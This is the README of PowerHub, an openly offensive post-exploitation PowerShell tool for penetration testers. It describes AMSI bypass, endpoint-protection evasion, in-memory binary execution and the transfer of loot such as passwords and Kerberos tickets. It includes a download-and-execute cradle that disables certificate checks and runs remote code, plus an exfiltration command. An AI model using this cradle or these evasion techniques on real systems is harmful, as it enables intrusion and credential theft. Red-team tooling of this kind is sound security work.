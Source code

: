PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs

![PowerHub Webapp](docs/img/powerhub-webapp.png)
![PowerHub Webapp](docs/img/powerhub-sharphound.png)

During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```powershell
PS C:\Users\avollmer> [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$Nxois='bZeVBC4vZfakT5SmCcaFam6IRY6UNLnC';$Plukgmio=New-Object Net.WebClient;IEX $Plukgmio.DownloadString('https://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-202
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView

Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```

Documentation
=============

Read the docs [here](https://adrianvollmer.github.io/PowerHub/).

* **Installation:** <https://adrianvollmer.github.io/PowerHub/installation.html>
* **Usage:** <https://adrianvollmer.github.io/PowerHub/usage.html>
* **Contributing:** <https://adrianvollmer.github.io/PowerHub/contrib.html>
* **Changelog:** <https://adrianvollmer.github.io/PowerHub/changelog.html>


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author and License
==================

Adrian Vollmer, 2018-2023. MIT License.

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
